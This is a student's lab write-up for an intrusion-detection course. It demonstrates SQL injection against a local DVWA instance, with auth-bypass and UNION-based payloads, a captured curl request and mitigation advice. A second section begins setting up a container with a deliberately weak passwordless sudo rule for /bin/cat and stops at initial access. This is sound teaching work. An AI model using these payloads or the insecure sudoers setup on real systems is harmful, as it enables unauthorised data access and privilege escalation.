


Ruben Valdez  
Intrusion Detection and Hacker Exploits | CSEC 5350  
Prof. Robert Jones  
Assignment_2: Breaking and Entering: A Controlled Exploit  
Due: April 3, 2025   

# Option 3: Controlled Web Exploitation
    - Select a web vulnerability (SQL Injection, XSS, or CSRF) and demonstrate exploitation in a lab environment.
    - Validate findings by manually crafting payloads and analyzing responses.
    - Provide recommendations for mitigation.
    - Deliverables: Attack methodology, request/response logs, proof of exploitation.

## Lab Environment

1. Installed DVWA docker image `sudo docker pull vulnerables/web-dvwa`

    

    

2. Success, accessed the DVWA site at `http://localhost:8080/login.php`

    

  

## SQLi

1. ***Attack Methodoly***
    - Target: `http://localhost:8080/vulnerabilities/sqli/`
    - Vulnerable Input Field: `User ID`
    - Parameter: `id passed via GET request`

    

2. Exploitation with Manually Crafted Payloads

    - 1st Test: Authentication Bypass / Data Dump

        The app returned a valid record without proper ID — confirms classic SQLi.

        - Manual exploitation using `' OR 1=1 --`

            

        - URL Generated exploitation using `http://localhost:8080/vulnerabilities/sqli/?id=' OR 1=1 -- &Submit=Submit#`

            

    - 2nd Test: Database Version Discovery

        Leaked DB version via injection.

        - Manual exploitation payload using `1' UNION SELECT null, version() --`

            

        - URL Payload delivery using `http://localhost:8080/vulnerabilities/sqli/?id=1'+UNION+SELECT+null,version()+--+&Submit=Submit#`

            

    - 3rd Test: Current DB User

        Current DB user revealed.

        - Manual Exploitation payload using `1' UNION SELECT null, user() -- `

            

3. Request/Response Logs

    - Used `Firefox Web Developer Tools` to access the request and response logs with the `Network` tab

        

    - Entered the following payload manually in the User ID field:  `GET /vulnerabilities/sqli/?id=' OR 1=1 -- &Submit=Submit HTTP/1.1` and looked for the html file to grab the below curl site. 

        - To copy the curl follow these steps:  `Right clicked > Copy Value > Copy as Curl`

                curl 'http://localhost:8080/vulnerabilities/sqli/?id=id%3D%27+OR+1%3D1+--&Submit=Submit#' --compressed -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate, br, zstd' -H 'Connection: keep-alive' -H 'Referer: http://localhost:8080/vulnerabilities/sqli/?id=GET+%2Fvulnerabilities%2Fsqli%2F%3Fid%3D%27+OR+1%3D1+--+%26Submit%3DSubmit+HTTP%2F1.1&Submit=Submit' -H 'Cookie: PHPSESSID=9ppv1j9h8u9ggrpr23pmon3an1; security=low' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-Fetch-Dest: document' -H 'Sec-Fetch-Mode: navigate' -H 'Sec-Fetch-Site: same-origin' -H 'Sec-Fetch-User: ?1' -H 'Priority: u=0, i'

            

            

4. Recommendations for Mitigation

    - Use Parameterized Queries / Prepared Statements	
        - Avoid directly including user input in SQL queries
    - Input Validation	
        - Use server-side validation and whitelist expected formats
    - Least Privilege DB Accounts	
        - DB user should not have access to sensitive or admin-level data
    - Error Handling	
        - Disable verbose SQL errors shown to users
    - WAFs	
        - Add Web Application Firewall to detect and block malicious inputs

  

# Option 4: Post-Exploitation & Privilege Escalation
    - Perform post-exploitation techniques after gaining access to a vulnerable system.
    - Techniques may include privilege escalation, credential dumping, or lateral movement.
    - Explain how real-world attackers use these techniques after initial compromise.
    - Deliverables: Walkthrough of the escalation method, captured credentials or access verification.

## Lab Environment

1. Ubuntu docker install

        sudo docker pull ubuntu:20.04
        docker run -it --name vuln-ubuntu --hostname vuln-target --rm ubuntu:20.04 /bin/bash
        apt update && apt install -y sudo net-tools

2. Inside the container, created a vulnerable user who can run cat and sudo w/o a password

        apt update && apt install -y sudo net-tools
        useradd -m hacker
        echo 'hacker:hackme123' | chpasswd
        echo 'hacker ALL=(ALL) NOPASSWD: /bin/cat' >> /etc/sudoers
        su - hacker

    

    `ifconfig`

    

3. Initial access FROM Kali

